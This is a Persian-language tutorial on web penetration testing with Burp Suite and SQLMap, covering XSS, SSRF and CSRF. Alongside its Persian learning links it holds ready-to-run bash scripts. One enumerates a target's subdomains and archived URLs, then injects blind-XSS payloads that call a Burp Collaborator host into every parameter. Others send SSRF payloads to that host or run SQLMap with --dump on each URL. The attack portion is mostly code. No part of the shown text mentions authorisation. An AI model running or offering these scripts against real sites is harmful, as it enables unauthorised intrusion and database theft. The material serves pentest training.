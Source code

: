 با توجه به علاقه‌مندی شما به یادگیری و استفاده حرفه‌ای از ابزارهای تست نفوذ وب، در ادامه یک برنامه جامع و مرحله‌به‌مرحله برای هر بخش مهم (XSS، SSRF، CSRF) همراه با اسکریپت‌های تخصصی‌تر و راهنمای تصویری و منابع آموزشی فارسی معتبر ارائه می‌دهم. این برنامه به شما کمک می‌کند فرایند تست نفوذ وب را به بهترین شکل انجام دهید.

1. تست XSS (Cross-Site Scripting)
گام‌های اصلی
شناسایی ورودی‌های آسیب‌پذیر: فرم‌ها، پارامترهای URL، هدرها، کوکی‌ها

تزریق پیلودهای XSS: پیلودهای ساده مثل <script>alert(1)</script> و پیلودهای پیشرفته‌تر

استفاده از Burp Suite Intruder و Repeater برای ارسال و تست پیلودها

استفاده از Burp Collaborator برای شناسایی Blind XSS

تحلیل پاسخ‌ها و لاگ‌ها

نمونه اسکریپت اتوماتیک تزریق XSS با Burp Collaborator
```bash
#!/bin/bash
target=$1
collaborator="your-collaborator-id.burpcollaborator.net"

cat urls.txt | grep '=' | while read url; do
  payload="<script src='https://$collaborator'></script>"
  test_url="${url/=\*/=$payload}"
  curl -s "$test_url" > /dev/null
  echo "Injected payload to $test_url"
done
```
منابع تصویری و فارسی
آموزش کامل Burp Suite و تست XSS در لرن فایلز

ویدیو آموزش XSS با Burp Suite در آپارات

مقاله آموزش XSS با Burp Suite در سایفکس

2. تست SSRF (Server-Side Request Forgery)
گام‌های اصلی
شناسایی پارامترهای URL یا ورودی‌هایی که سرور درخواست HTTP ارسال می‌کند

تزریق آدرس‌های داخلی مثل http://127.0.0.1 یا دامنه Burp Collaborator

استفاده از Burp Collaborator برای شناسایی درخواست‌های ارسالی از سرور

تست دور زدن فیلترها با قالب‌های مختلف آدرس

نمونه پیلود SSRF ساده
```bash
http://target.com/api?url=http://your-collaborator-id.burpcollaborator.net
```
منابع آموزشی
آموزش تست SSRF در PortSwigger

مقاله فارسی آموزش SSRF در سایت امنیتی سایفکس

3. تست CSRF (Cross-Site Request Forgery)
گام‌های اصلی
شناسایی درخواست‌های حساس POST یا GET

حذف یا تغییر هدرهای Origin و Referer و تست واکنش سرور

بررسی وجود توکن CSRF و اعتبارسنجی آن

استفاده از Burp Suite Intruder برای حذف یا تغییر توکن‌ها و بررسی پاسخ

راهنمای تصویری
آموزش تست CSRF با Burp Suite در آپارات (نمونه ویدیویی)

مقاله فارسی تست CSRF در فرادرس

4. راهنمای گام‌به‌گام استفاده پیشرفته Burp Suite
نصب و پیکربندی Proxy و گواهی SSL

استفاده از Repeater برای تست‌های دستی

Intruder برای حملات خودکار و فازی

Collaborator برای تست آسیب‌پذیری‌های Out-of-Band مثل Blind XSS و SSRF

Extender برای افزودن افزونه‌های تخصصی مثل SQLiPy (ادغام SQLMap)

Sequencer برای تحلیل امنیت توکن‌ها

Comparer برای مقایسه درخواست‌ها و پاسخ‌ها

منابع آموزش
دوره ویدیویی کامل Burp Suite در لرن فایلز

مقاله گام‌به‌گام Burp Suite در سایت APK

آموزش افزونه SQLiPy برای ادغام Burp و SQLMap

5. راهنمای گام‌به‌گام استفاده پیشرفته SQLMap
اجرای تست SQLi روی پارامترهای GET و POST

استفاده از گزینه‌های پیشرفته --level, --risk, --technique

بهره‌برداری از دیتابیس و استخراج داده‌ها

اجرای دستورات سیستم عامل در صورت امکان

استفاده از API SQLMap با افزونه SQLiPy در Burp Suite

نمونه دستور پیشرفته
```bash
sqlmap -u "http://target.com/page.php?id=1" --batch --level=5 --risk=3 --dump --threads=10 --random-agent
```
منابع آموزشی
آموزش کامل SQLMap در PentestCore

ویدیو آموزش SQLMap در آپارات

6. اسکریپت ترکیبی پیشرفته برای XSS، SSRF و SQLi
```bash
#!/bin/bash

target=$1
collaborator="your-collaborator-id.burpcollaborator.net"

# زیردامنه‌ها
subfinder -d $target -silent > subdomains.txt

# دامنه‌های زنده
cat subdomains.txt | httpx -silent -threads 50 > live_domains.txt

# استخراج URLها
cat live_domains.txt | waybackurls | sort -u > urls.txt

# تزریق XSS
grep '=' urls.txt | while read url; do
  xss_payload="<script src='https://$collaborator'></script>"
  test_url="${url/=\*/=$xss_payload}"
  curl -s "$test_url" > /dev/null
done

# تست SSRF
grep -E 'url=|redirect=' urls.txt | while read url; do
  ssrf_payload="http://$collaborator"
  test_url="${url/=(*)/=$ssrf_payload}"
  curl -s "$test_url" > /dev/null
done

# تست SQLi با SQLMap
grep '=' urls.txt | while read url; do
  sqlmap -u "$url" --batch --level=3 --risk=2 --threads=10 --random-agent --output-dir=./sqlmap_output
done
```
